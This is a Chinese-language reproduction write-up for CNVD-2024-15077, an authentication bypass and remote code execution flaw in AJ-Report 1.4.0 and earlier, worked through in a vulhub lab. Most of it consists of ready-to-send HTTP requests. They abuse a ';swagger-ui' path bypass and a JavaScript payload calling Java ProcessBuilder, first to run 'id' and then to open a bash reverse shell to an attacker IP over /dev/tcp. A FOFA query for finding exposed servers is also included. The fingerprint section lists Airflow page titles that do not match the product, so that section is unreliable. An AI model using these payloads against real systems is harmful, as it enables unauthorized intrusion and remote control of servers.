








# AJ-Report 认证绕过与远程代码执行漏洞

## 漏洞编号

CNVD-2024-15077


## 漏洞描述

AJ-Report是一个全开源的BI平台。

酷炫大屏展示，能随时随地掌控业务动态，让每个决策都有数据支撑。多种数据源支持，内置mysql，elasticsearch，kudu等多种驱动，支持自定义数据集省去数据接口开发，支持17+种大屏组件

在其1.4.0版本及以前，存在一处认证绕过漏洞，攻击者利用该漏洞可以绕过权限校验并执行任意代码


## 影响范围

AJ-Report <=1.4.0


## FOFA搜索

```
title="AJ-Report" && status_code="200"
```


## 指纹信息

```
<title>Airflow - DAGs</title>
<title>Airflow - Login</title>
```


## 环境部署

vulhub

```
docker-compose up -d
docker-compose ps
```






## 漏洞复现

访问192.168.23.15:9095




抓包


修改数据包为POST

```
POST /dataSetParam/verification;swagger-ui/
```

添加请求体

```
{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

即执行id




但是会提示

```
"Content type 'application/octet-stream' not supported"
```


添加

```
Content-Type: application/json;charset=UTF-8
```

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 192.168.1.15:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: application/json;charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 341

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}

```



成功rce


尝试反弹shell

本地开启监听

```
nc -lvp 443
```




修改数据包

```
\"bash\",\"-c\",\"bash -i >& /dev/tcp/192.168.1.21/443 0>&1\"
```

```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 192.168.1.15:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: application/json;charset=UTF-8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 396

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"bash\",\"-c\",\"bash -i >& /dev/tcp/192.168.1.21/443 0>&1\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}

```






成功弹回shell


## 修复方案

- 升级到高版本
